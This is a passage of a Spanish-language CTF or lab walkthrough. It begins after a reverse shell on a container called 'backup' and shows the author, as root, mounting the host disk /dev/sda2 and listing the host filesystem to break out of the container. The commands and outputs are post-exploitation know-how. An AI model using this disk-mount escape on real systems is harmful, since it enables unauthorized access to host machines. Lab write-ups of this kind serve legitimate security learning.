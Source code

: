 Recibimos la conexion hacemos un tratamiento de la tty como siempre y seguimos 
`Estamos en la ip 172.20.0.3` --- host `xxxx`

Enumeramos las particiones del disco con el comando `$df -h`
```bash
root@backup:/home# df -h
Filesystem      Size  Used Avail Use% Mounted on
overlay         7.3G  3.5G  3.8G  49% /
tmpfs            64M     0   64M   0% /dev
tmpfs          1001M     0 1001M   0% /sys/fs/cgroup
/dev/sda2       7.3G  3.5G  3.8G  49% /backup
shm              64M     0   64M   0% /dev/shm
```
# Creamos una montura para alojar la particion entera de backup encontrada

```bash
root@backup:/home# cd /mnt 
root@backup:/mnt# mkdir test
root@backup:/mnt# mount /dev/sda2 /test 
mount: mount point /test does not exist
root@backup:/mnt#  cd ..
root@backup:/# mount /dev/sda2 /mnt/test
root@backup:/# cd !$
cd /mnt/test

# Aqui ya tenemos montada la particion del ultimo sistema o maquina en nuestra ip de 172.20.0.3 que acababamos de ganar acceso
root@backup:/mnt/test# ls
bin   home            lib64       opt   sbin  tmp      vmlinuz.old
boot  initrd.img      lost+found  proc  snap  usr
dev   initrd.img.old  media       root  srv   var
etc   lib             mnt         run   sys   vmlinuz
root@backup:/mnt/test# ls -la
total 116
drwxr-xr-x 23 root root  4096 Apr  9 12:09 .
drwxr-xr-x  1 root root  4096 Jul  1 11:38 ..
-rw-------  1 root root    48 Apr  9 12:09 .bash_history
drwxr-xr-x  2 root root  4096 Jul 16  2018 bin
drwxr-xr-x  2 root root  4096 Jul 15  2018 boot
drwxr-xr-x  4 root root  4096 Jul 15  2018 dev
drwxr-xr-x 98 root root  4096 Apr  9 11:59 etc
drwxr-xr-x  5 root root  4096 Apr  9 11:55 home
lrwxrwxrwx  1 root root    33 Jul 16  2018 initrd.img -> boot/initrd.img-4.4.0-130-generic
lrwxrwxrwx  1 root root    33 Apr 20  2018 initrd.img.old -> boot/initrd.img-4.4.0-119-generic
drwxr-xr-x 24 root root  4096 Apr  9 11:35 lib
drwxr-xr-x  2 root root  4096 Jul 15  2018 lib64
drwx------  2 root root 16384 Apr  1  2018 lost+found
drwxr-xr-x  3 root root  4096 Jul 15  2018 media
drwxr-xr-x  2 root root  4096 Jul 15  2018 mnt
drwxr-xr-x  3 root root  4096 Jul 15  2018 opt
drwxr-xr-x  2 root root  4096 Jul 15  2018 proc
drwx------  5 root root  4096 Jul 16  2018 root
drwxr-xr-x  2 root root  4096 Jul 15  2018 run
drwxr-xr-x  2 root root 12288 Apr  9 12:08 sbin
drwxr-xr-x  2 root root  4096 Jul 15  2018 snap
drwxr-xr-x  2 root root  4096 Jul 15  2018 srv
drwxr-xr-x  2 root root  4096 Jul 15  2018 sys
drwxrwxrwt  9 root root  4096 Jul  1 11:17 tmp
drwxr-xr-x 10 root root  4096 Jul 15  2018 usr
drwxr-xr-x 13 root root  4096 Jul 15  2018 var
lrwxrwxrwx  1 root root    30 Jul 16  2018 vmlinuz -> boot/vmlinuz-4.4.0-130-generic
lrwxrwxrwx  1 root root    30 Apr 20  2018 vmlinuz.old -> boot/vmlinuz-4.4.0-119-generic
```